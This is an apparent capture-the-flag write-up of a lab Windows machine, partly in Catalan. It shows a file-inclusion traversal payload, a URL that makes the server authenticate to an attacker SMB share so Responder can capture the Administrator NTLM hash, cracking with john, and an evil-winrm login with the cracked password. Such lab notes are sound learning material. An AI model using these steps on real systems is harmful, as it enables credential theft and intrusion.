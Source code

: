 # Intro
| Dificulty | OS | Start Date | End Date | Help? |
|---|---|---|---|---|
| Very Easy | Windows | 24/05/2022 | 24/05/2022 | Yes |


# Thought process
1. View running services with `nmap`.
2. Edit `/etc/hosts` for being able to see the web.
3. Check how web works and think if I can attack doing File Inclusion.
4. Capture Administrator NTLM.
5. Trying to connect with WinRM.


# Resolution
Edit `/etc/hosts` like this:
```bash
@IP unika.htb
```

Test the "page" parameter to see if we can access to some commonly known files that will have the same name across networks, Windows domains, and systems. [Link](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt)
The most common file to check as Pentester is `WINDOWS\System32\drivers\etc\hosts`.
Final URL: `page=../../../../../../../../windows/system32/drivers/etc/hosts` 
The file incluson was made possible thanks to `include()` method of php is being used by page parameter to load differents `.html` depending the lengague of the site.

In the PHP configuration file `php.ini` , "allow_url_include" wrapper is set to "Off" by default, indicating that PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. However, even if allow_url_include and allow_url_fopen are set to "Off", PHP will not prevent the loading of SMB URLs. 
We can use `Responder` to steal NTLM hash.
```bash
$ sudo python3 Responder.py -I tun0
```

Now we tell the server to include a resource from our SMB Server by setting the "page" parameter.
```
http://unika.htb/?page=//@IP/somefile
```

The server will try to finde the file but it doesn't exists. Mean while, we captured the NetNTLMv for the Administrator User. Now with `john` we can dump the hash.
```bash
$ john -w=/usr/share/wordlists/rockyou.txt hash.txt
```
[hash.txt]: Is the hash captured with Responder and redirected to a file.

Finally, with the username and password, we can WinRM the machine to find if there's any file with the Flag.
```bash
$ evil-winrm -i @IP_Server -u administrator -p badminton
```
[type]: Command to view the content.


# WinRM
Windows-native built-in remote management protocol that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as Operating Systems and applications. 
WinRM allows the user to : 
	→ Remotely communicate and interface with hosts 
	→ Execute commands remotely on systems that are not local to you but are network accessible. 
	→ Monitor, manage and configure servers, operating systems and client machines from a remote location
[//]: We can find credentials (typically username and password) for a user who has remote management privileges and execute PS.


# File Inclusion Vulnerability
Dynamic websites include HTML pages on the fly based on some of the parameters (Cookies, POST parameters...)

## Local
Local File Inclusion occurs when an attacker is able to get a website to include a file that was not intended to be an option for this application. A common example is when the attacker can use `../` in the inputted file and view sensitive files of the server.

## Remote
Similar to LFI but in this case it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTP etc.


# include()
```php
File 1 --> vars.php 
<?php

$color = 'green';
$fruit = 'apple';

?>

############################################# 

File 2 --> test.php
<?php

echo "A $color $fruit"; // output = "A"
include 'vars.php';
echo "A $color $fruit"; // output = "A green apple"

?>
```
More info about php include(). [Link](https://www.php.net/manual/en/function.include.php)


# NTLM
Collection of authentication protocols created by Microsoft. It is a challenge-response authentication protocol used to authenticate a client to a resource on an Active Directory domain.
1. The client sends the user name and domain name to the server. 
2. The server generates a random character string, referred to as the challenge. 
3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the server. 
4. The server retrieves the user password (or equivilent). 
5. The server uses the hash value retrieved from the security account database to encrypt the challenge string. The value is then compared to the value received from the client. If the values match, the client is authenticated.

More info about NTLM. [Link](https://www.ionos.com/digitalguide/server/know-how/ntlm-nt-lan-manager/)


# Responder
! It can be used in a lot of ways, in this CTF is going to recreate a SMB Server.

When the target machine attempts to perform the NTLM authentication to that server, Responder sends a challenge back for the server to encrypt with the user's password. When the server responds, Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same challenge response, and if we find one, we know that is the password.





Instal·lar responder = caturar hash del NTLM

john per hash (John The Ripper)

Connectar-se a la maquina utilitzant WinRM (aplicació EvilWinRM)
[//]: Powershell no està instal·lat en windows sino seria: ?????FERRRRRRRr

```bash
$ evil-winrm -i 10.129.52.23 -u administrator -p badminton
```

en el directori no hi ha res i anem al user mike on alli té la flag
